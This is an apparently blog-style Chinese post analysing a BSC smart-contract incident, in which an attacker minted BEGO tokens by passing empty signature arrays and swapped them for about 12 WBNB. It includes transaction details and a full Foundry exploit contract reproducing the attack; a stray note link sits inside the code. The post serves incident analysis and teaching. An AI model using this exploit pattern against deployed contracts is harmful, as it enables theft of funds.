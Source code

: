 [toc]
`攻击者通过在mint代币的时候，传入空的rsv来绕开签名的检查，获取12个WBNB的利润`

## 事件基本情况
```
tx: 0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57
区块链：bsc
发送者: 0xde01f6ce91e4f4bdb94bb934d30647d72182320f
受害者: 0xc342774492b54ce5F8ac662113ED702Fc1b34972
攻击合约: 0x08a525104ea2a92abbce8e4e61c667eed56f3b42
调用函数: 0x28b5e32b
区块高度: 22315680
漏洞点：不恰当的函数逻辑。
```

## hacker攻击流程 
1. 调用BEGO的mint方法，传入的rsv为空，可以绕开合约签名的检查。并将接收者设置为PancakeSwap V2: BGEO。
2. 用PancakeSwap V2: BGEO的swap将BEGO兑换为WBNB发送给sender

  流程图如下
  ![[Pasted image 20230521144812.png]]
  漏洞方法如图
![[Pasted image 20230521145009.png]]

## 攻击点复刻方式
1. 创建攻击合约
2. 在攻击方法中调用mint，传入空的rsv
3. 将mint的BEGO去兑换为WBNB

## 攻击模拟结果图

![[Pasted image 20230521152255.png]]

## 事件总结

`一定要对传入的参数进行特殊性检查，防止被黑客利用`

## 攻击代码
```
// SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.8.10;

  

import "forge-std/Test.sol";

import "./UniversalInterface.sol";

  

// 定义常量

IERC20 constant WBNB = IERC20(0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c);

address constant BEGO = 0xc342774492b54ce5F8ac662113ED702Fc1b34972;

IPancakeRouter02 constant Router = IPancakeRouter02(0x10ED43C718714eb63d5aA57B78B54704E256024E);

uint256 constant BlockNumber = 22315679;

  
  

// 定义接口

interface BEGOERC20 {

        function mint(

        uint256 _amount,

        string memory _txHash,

        address _receiver,

        bytes32[] memory _r,

        bytes32[] memory _s,

        uint8[] memory _v

    ) external;

}

  

// 攻击合约

contract Exploit is Test{

  

// 设置攻击环境

    function setUp() public {

        vm.createSelectFork("bsc", BlockNumber);

    }

  

// 攻击函数

    function testAttack() public {

        // 攻击前WBNB

        console.log("WBNB owned before attack:",WBNB.balanceOf(address(this)));

        bytes32 [] memory _r = new bytes32[](0);

        bytes32 [] memory _s = new bytes32[](0);

        uint8 [] memory _v = new uint8[](0);

        BEGOERC20(BEGO).mint(1000000000000000000000000000000, "t", address(this), _r, _s, _v);

        BEGOToWBNB();

        // 攻击后WBNB

        console.log("WBNB owned before attack:",WBNB.balanceOf(address(this)));
[[ethernaut 第16-~关]]
    }

  

    function BEGOToWBNB() internal {

        IERC20(BEGO).approve(address(Router), type(uint).max);

        address[] memory path = new address[](2);

        path[0] = address(BEGO);

        path[1] = address(WBNB);

        Router.swapExactTokensForTokensSupportingFeeOnTransferTokens(

            IERC20(BEGO).balanceOf(address(this)),

            0,

            path,

            address(this),

            block.timestamp

        );

    }

}
```
`感觉对有帮助的可以点个赞，谢谢♥；如果喜欢的话可以订阅，我会持续更新合约漏洞事件。`
